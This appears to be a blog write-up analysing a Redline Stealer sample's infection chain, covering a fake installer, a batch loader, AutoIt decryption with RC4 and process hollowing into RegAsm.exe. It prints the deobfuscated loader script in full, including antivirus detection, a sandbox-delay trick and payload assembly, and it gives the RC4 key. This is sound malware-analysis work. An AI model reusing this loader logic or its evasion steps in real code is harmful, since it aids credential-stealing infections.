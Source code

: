 ## Redline Stealer Infection Chain

Came across a sample from Malware Bazaar.

SHA256: 292a43281a8146f248fb71d92e5e32597c587fe003ac3a2f3ac8227331062120

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/0e2605c6-3811-44e3-b9da-15b898626024)

Detect It Easy recognized the exe file as an Installer, also there were some mentions of Autoit on VirusTotal.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f3e700bb-fad6-4640-a2a3-13f4a973e34c)

There’s a bunch of garbled strings and it is also packed, typical for installers. IAT and API string references seem normal.

I read up on [eSentire’s Case Study](https://www.esentire.com/blog/esentire-threat-intelligence-malware-analysis-redline-stealer), and the initial loader for Redline are known to take form of fake installers like TeamViewer, AnyDesk, etc. A similar variant’s infection chain looks like the following, so I tried to base my analysis around this:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/ec4c6c77-d971-4ca3-a550-bae3792918d6)

In IDA, the main functionality of the program lies in `sub_4015A0`, which handles file creation, deletion, setting up uninstallers, inserting registry keys, creating directories, etc. There is an interesting `ShellExecuteW` API call with dynamically resolved strings, and when looking through Tiny Tracer logs, there was one call to this exact offset.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/64279dc5-9de9-404e-8c8e-16a94806680b)

Tiny Tracer ouptut seems to stop at `ShellExecuteW` also:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/cefd1e56-adae-4cd5-b9aa-fd9cf036248e)

I couldn’t find any other process related APIs being used, so decided to see what is passed into the function. It looks like it’s copying a file `Wrist` into `Wrist.cmd` in the user’s Temp directory and executing it.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/a8a71893-963f-46d9-b93d-2be2398fe8db)

`Wrist.cmd` is an obfuscated batch script.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/2503a94f-7e67-41b7-9b4c-0e126d2443f5)

After deobfuscating, we get:

```powershell
Set oobjxQdyOhgEZ=Promptly.pif
Set MXpzMKVMvPYNjICbYkFdgBg=  
tasklist   | findstr /I "wrsa.exe opssvc.exe"  1>NUL  & if not errorlevel 1 ping -n 196 127.0.0.1
Set /a Attend=802403
tasklist   | findstr /I "avastui.exe avgui.exe nswscsvc.exe sophoshealth.exe"   & if not errorlevel 1 Set oobjxQdyOhgEZ=AutoIt3.exe   & Set MXpzMKVMvPYNjICbYkFdgBg=.a3x
cmd /c md %Attend%
findstr /V "LyingBaghdadProgrammersAtom" Fisher  1>%Attend%\%oobjxQdyOhgEZ%
copy /b %Attend%\%oobjxQdyOhgEZ% + Collected + Thomas + Mandate + Formed + Notify + Fusion + Hs + Joke + Uni + Painful + Harmful + Sullivan + Exhibition + Monster + Dated + Senegal + Maritime + Token + Lovely + Essentially + Verde + Fork + Mumbai + Horse %Attend%\%oobjxQdyOhgEZ%
cmd /c copy /b Drew + Folder + %Attend%\%oobjxQdyOhgEZ%U%MXpzMKVMvPYNjICbYkFdgBg%
start /I %Attend%\%oobjxQdyOhgEZ% %Attend%\%oobjxQdyOhgEZ%U%MXpzMKVMvPYNjICbYkFdgBg%
timeout 5
```

This checks for processes `wrsa.exe` and `opssvc.exe`, if found, ping the localhost 196 times. It also checks for antivirus services on the system `avastui.exe, avgui.exe, nswscsvc.exe sophoshealth.exe`, if found, ` oobjxQdyOhgEZ ` is set to `AutoIt3.exe` instead of `Promptly.pif`. It creates a directory named `802403`, and in there, constructs a file Promptly.pif or AutoIt3.exe using contents from different files i.e. Collected, Thomas, Mandate, …, and attempt to run it, passing in the file `802403\U` as an argument. 

During the execution of the initial installer, we can see that it drops the fragmented AutoIt3.exe files into the Temp directory. Here’s one of the fragments being created, seen in Tiny Tracer:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/033f61b8-f7d2-474c-a4d4-4796ad5efd67)

Anyways, this seems like a legitimate AutoIt3 interpreter based on VirusTotal reports. However, the payload in `802403\U` looks encrypted. After some research, the last stage typically involves some sort of injection technique and after some tinkering and setting breakpoints on `CreateProcess`, `OpenProcess`and `NtResumeThread`, etc. what happens is the AutoIt3 interpreter decrypts the payload in memory and does process hollowing on `RegAsm.exe`.  And its parent process is `explorer.exe`, weird. I suspended the process quickly after the payload is injected and used pe-sieve to dump out suspicious memory regions. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/699e279d-b415-491c-b969-46496edc2d32)

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/22b2dfbd-9d74-4438-8803-08dac6232422)

The memory region at `0xdb0000` seems promising. 

After unmapping it in PE-bear, it looks like a .NET file, so opening it up in dnSpy, we are greeted with the final stage of the malware!

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/9805e5d4-3ac7-4cde-b8a3-5bf7591a0d9f)

But how did the decryption happen of the payload happen? Going back to executing `Promptly.pif` (or AutoIt3.exe), there was a `VirtualAlloc` call and a decryption routine shellcode written to that memory at `0x112000`, so I enabled an memory breakpoint on that address to catch the execution of that stub.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/79705fed-7511-4cbf-b9ac-6c6670464bd8)

Dumping the shellcode and opening it in IDA, we can see 2 functionalities related to the RC4 initialization stage in `sub_2` and the XOR stage in `sub_93`. (learned this from Zero2Automated lol)

`sub_2`:
![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/ce203bc6-7a4f-4cfa-b09e-4bfb919241ca)

`sub_93`:
![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f6125b26-114e-4651-98b1-f3c1c8fa1d4a)

Looking back at the arguments being passed into sub_2, the RC4 key is `8518543726503553863083291645022577371`.

Setting another breakpoint at the end of the decryption routine, we can see the encrypted blob that was decrypted at the same address `0x4790048` (this was on a second run because I messed up the first run).

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/5a4a6ed0-82eb-46bc-a636-cc29b17f22db)

But this PE file looks slightly different than the one I dumped previously. But thanks to a blog post from c3rb3ru5d3d53c, turns out it’s just compressed, and will be decompressed later and injected into a process, in my case `RegAsm.exe`.  Technically, I should run API monitor and track whichever API call was used for decompression and injection techniques, but I’m kinda lazy. But here’s a [list](https://github.com/cuckoosandbox/cuckoo/wiki/Hooked-APIs-and-Categories) of generic API calls you enable for monitoring.

Anyways this is just a quick summary on how to get to the Redline code and demoing how the infection chain works !!
